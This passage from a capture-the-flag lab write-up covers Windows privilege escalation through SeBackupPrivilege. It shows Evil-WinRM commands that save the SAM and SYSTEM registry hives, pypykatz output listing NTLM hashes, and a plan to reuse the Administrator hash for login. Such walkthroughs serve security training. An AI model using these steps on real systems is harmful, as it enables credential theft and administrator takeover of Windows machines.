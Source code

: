 Exploring the filesystem, we don't find anything useful so we try to understand which privileges emily has:

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We notice she has SeBackupPrivilege, you can google it and deeply understand what is used for, but essentially it enables the user to create backups of the filesystem.
To make it possibile, the user has the read permission of all the file system, including critical files such as SAM and SYSTEM.

Let's use it for our advantage, let's create a C:\Temp folder in which we have write permission and let's copy SAM and SYSTEM files:

```
*Evil-WinRM* PS C:\Temp> reg save hklm\sam C:\Temp\sam
The operation completed successfully.

*Evil-WinRM* PS C:\Temp> reg save hklm\system C:\Temp\system
The operation completed successfully.
```

Then we download it to our local machine using "download" command.

Once on our local machine, we can parse the content using pypykatz:
```
pypykatz registry --sam sam system 
WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a*************:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

We can see the usual format "User:RID:LMHASH:NTLMHASH". In this case the LMHASH is a the hash of blank password. It means that LM hash is not used.
Instead, we can see NTLMHASH of the Administrator user. This can be used to access to the machine using evil-winRM:
